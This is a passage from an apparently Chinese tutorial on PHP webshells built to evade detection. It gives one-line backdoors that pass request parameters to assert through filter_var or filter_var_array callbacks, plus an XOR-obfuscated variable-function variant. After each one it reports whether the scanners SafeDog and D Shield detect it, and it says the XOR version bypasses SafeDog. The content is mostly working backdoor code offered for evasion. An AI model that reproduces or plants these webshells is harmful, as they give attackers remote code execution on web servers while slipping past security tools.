 

```php
<?php
    filter_var($_REQUEST['x'], FILTER_CALLBACK, array('options' => 'assert'));
?>
```



| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |



#### filter_var_array()

```php
filter_var_array(array, args)
```

filter_var_array() 函数获取多项变量，并进行过滤。

| 参数  | 描述                                                         |
| :---- | :----------------------------------------------------------- |
| array | 必需。规定带有字符串键的数组，包含要过滤的数据。             |
| args  | 可选。规定过滤器参数数组。合法的数组键是变量名。合法的值是过滤器 ID，或者规定过滤器、标志以及选项的数组。该参数也可以是一个单独的过滤器 ID，如果是这样，输入数组中的所有值由指定过滤器进行过滤。 |



```php
<?php
    filter_var_array(array('test' => $_REQUEST['x']), array('test' => array('filter' => FILTER_CALLBACK, 'options' => 'assert')));
?>
```

| 安全狗 | D盾             |
| :----- | :-------------- |
| 0级    | 级别 5 已知后门 |

## 异或

P 神的一篇经典文章 [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#) 里面提到了异或的姿势，目前只有第一种方法可以过狗了，后面两种方法以及不行了….. 所以本课只重点带大家来看一下第一种姿势。我们只要稍微修改一下也可以轻松过掉安全狗：

```php
<?php 
    $a = ('!'^'@').'s'.'s'.'e'.'r'.'t';
    $a($_POST['x']);
?>
```

此时就已经过掉安全狗了，D 盾检测级别降到了 3 级，检测结果如下：

| 安全狗       | D盾             |
| :----------- | :-------------- |
| 0 个安全风险 | 级别 3 变量函数 |
